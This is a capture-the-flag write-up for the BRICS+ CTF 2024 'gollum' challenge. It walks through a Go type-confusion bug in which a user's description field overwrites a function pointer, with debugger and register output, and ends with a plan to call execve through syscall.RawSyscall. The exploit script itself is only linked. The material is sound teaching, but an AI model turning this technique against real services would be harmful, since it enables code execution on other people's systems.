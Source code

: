 # BRICS+ CTF 2024 | gollum

## Description

> In the depths of Orodruin I have found a new type of database.
>
> It stores users and passwords within the single structure.
>
> I hope it's safe. I use it in production anyway.

## Public archive

- [public/gollum.tar.gz](public/gollum.tar.gz)

## Deploy

```
cd deploy && docker compose up --build -d
```

## Solution

The service is written in [Go](https://go.dev/). It implements the simple text-based interface.

There are two suspicious parts in the [src/database/database.go](src/database/database.go) file:

```go
type debugEntry[T any] struct {
    Credential models.Credential
}

entry := debugEntry[int]{credential}
fmt.Sprintf("[DEBUG] Added credential entry %v\n", entry)

// ...

type debugEntry[T any] struct {
    User models.User
}

entry := debugEntry[int]{user}
fmt.Sprintf("[DEBUG] Added user entry %v\n", entry)
```

This is a type definition inside the function. The defined `debugEntry[T]` object is used in DEBUG logging, but the logging itself is used incorrectly. Function [fmt.Sprintf](https://pkg.go.dev/fmt#Sprintf) doesn't print anything, it just returns the string as a return value (the IDE will notice this as unused result warning).

If we change it to `fmt.Printf` we could see the unexpected behaviour:

```
> ./gollum
[!] Hello! Please, use `HELP` for available commands.
> REGISTER
[?] Please, enter username: hacker
[?] Please, enter password: hacker1337
[?] Please, enter password protection mode: sha256
[DEBUG] Added credential entry {fd1***a1e}
[DEBUG] Added user entry {***}
[+] Registered successfully.
>
```

At the second DEBUG line we expect a call to `User.String()` which should output the username "hacker". But the service calls `Credential.String()` instead for both user and credential entries.

This is the type confusion vulnerability, the service interprets `User` object as a `Credential` object. Let's look at the `Credential` struct:

```go
type HashFunc func(Credential) string

type Credential struct {
	created time.Time

	hashFunc HashFunc
	password string
}
```

There is a function pointer `hashFunc` inside the structure at offset 0x18. This pointer is accessed in `Credential.String()` function:

```go
func (credential Credential) String() string {
	var hash string

	if credential.hashFunc != nil {
		hash = credential.hashFunc(credential)
		hash = hash[:3] + "***" + hash[len(hash)-3:]
	} else {
		hash = "***"
	}

	return hash
}
```

Let's look at the `User` struct:

```go
type User struct {
	Id          int
	Name        string
	Description string

	CredentialId int
}
```

There is a string `Description` at the offset 0x18. We can control the user's description using `UPDATE` handler. Let's trigger the arbitrary call:

```
[!] Hello! Please, use `HELP` for available commands.
> REGISTER
[?] Please, enter username: AAAAAAAA
[?] Please, enter password: BBBBBBBB
[?] Please, enter password protection mode: sha256
[DEBUG] Added credential entry {2f8***890}
[DEBUG] Added user entry {***}
[+] Registered successfully.
> UPDATE
[?] Please, enter description: CCCCCCCC
[+] Description updated.
> LOGOUT
> LOGIN
[?] Please, enter username: AAAAAAAA
[?] Please, enter password: BBBBBBBB
[+] Logged in successfully.
> LOGOUT
> REGISTER
[?] Please, enter username: DDDDDDDD
[?] Please, enter password: EEEEEEEE
[?] Please, enter password protection mode: sha256
[DEBUG] Added credential entry {0c6***574}

Thread 1 "gollum" received signal SIGSEGV, Segmentation fault.
```

Notice the `call r9` instruction which caused the segfault:

```
     0x49b48e <gollum/models.Credential.String+78> mov    rbx, QWORD PTR [rsp+0x50]
     0x49b493 <gollum/models.Credential.String+83> mov    r9, QWORD PTR [rdi]
     0x49b496 <gollum/models.Credential.String+86> mov    rdx, rdi
 →   0x49b499 <gollum/models.Credential.String+89> call   r9
     0x49b49c <gollum/models.Credential.String+92> nop    DWORD PTR [rax+0x0]
     0x49b4a0 <gollum/models.Credential.String+96> cmp    rbx, 0x3
     0x49b4a4 <gollum/models.Credential.String+100> jb     0x49b4d4 <gollum/models.Credential.String+148>
     0x49b4a6 <gollum/models.Credential.String+102> lea    r8, [rbx+rax*1]
     0x49b4aa <gollum/models.Credential.String+106> lea    r8, [r8-0x3]
```

Let's look at the registers:

```
$rax   : 0x3
$rbx   : 0x000000c0000ae040  →  "DDDDDDDD\n"
$rcx   : 0x8
$rdx   : 0x000000c000018106  →  "CCCCCCCC\n"
$rsp   : 0x000000c0000791c8  →  0xc1b093dfcccaa2a2
$rbp   : 0x000000c000079200  →  0x000000c000079270  →  ...
$rsi   : 0x8
$rdi   : 0x000000c000018106  →  "CCCCCCCC\n"
$rip   : 0x000000000049b499  →  <gollum/models.Credential.String+89> call r9
$r8    : 0x2
$r9    : 0x4343434343434343 ("CCCCCCCC"?)
$r10   : 0x1a
$r11   : 0x000000c0000b6000  →  "[DEBUG] Added user entry {ntry {0c6***574}\n comma[...]"
$r12   : 0x0
$r13   : 0x19
$r14   : 0x000000c0000061a0  →  0x000000c000078000  →  0x0000000000000000
$r15   : 0x40
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
```

It calls the `0x4343434343434343` ("CCCCCCCC") address. Go passes the function arguments in the registers `rax`, `rbx`, `rcx` and `rdx`, and we immediately got the control over the function arguments:

```
rax -> 0x3 (user ID)
rbx -> 0x000000c0000ae040  →  "DDDDDDDD\n" (user name)
rcx -> 0x8 (user name length)
rdx -> 0x000000c000018106  →  "CCCCCCCC\n" (user description)
```

Let's search the available functions inside the binary:

```
> nm ./gollum | grep -i syscall
...
000000000047abe0 T syscall.RawSyscall
0000000000402680 T syscall.RawSyscall6
...
```

Since there is no PIE we already know the address of the target function. So we can simply call `execve()` syscall.

Example solver: [solution/sploit.py](solution/sploit.py)

*Note: the intended solution doesn't require a searching for the specific bug in Go compiler since the trigger could be noticed by DEBUG logging. But there is an issue for this bug: https://github.com/golang/go/issues/54456*
